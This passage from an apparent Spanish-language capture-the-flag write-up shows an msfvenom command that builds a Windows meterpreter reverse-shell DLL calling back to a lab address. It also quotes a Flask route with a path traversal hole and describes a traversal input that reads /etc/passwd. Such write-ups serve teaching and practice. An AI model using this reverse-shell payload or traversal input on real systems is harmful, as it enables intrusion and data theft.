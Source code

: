Aunque podemos hacer un Path Traversal y cargar el dll del directorio `images`
![Write-up Image](images/Screenshot_16.png)

Probé a crear un dll con `msfvenom`
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.50 LPORT=443 -f dll > evil.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 9216 bytes
```

Pero sigue saliendo este error.
![Write-up Image](images/Screenshot_17.png)

## Lateral Thinking -> Path Traversal
Como podemos ver el archivo `app.py` podemos ver el código fuente de la aplicación del puerto 80

```python
@app.route('/PrivacyAndPolicy')
def sendPolicyAgreement():
    lang = request.args.get('lang')
    file_ext = request.args.get('ext')
    try:
            return send_file(f'/var/www/sites/localisation/{lang}.{file_ext}') 
    except: 
            return send_file(f'/var/www/sites/localisation/default/policy.pdf', 'application/pdf')
```
Vemos esta sección de código en el cual detectamos que es vulnerable a Path Traversal

A través de los parámetros `lang` y `ext` se puede especificar un archivo
`/blabla/blalblab/blalbaba/lang.ext`
Si hacemos que `lang` valga un `.` y que `ext` valga por ejemplo `/../../../../../../etc/passwd`

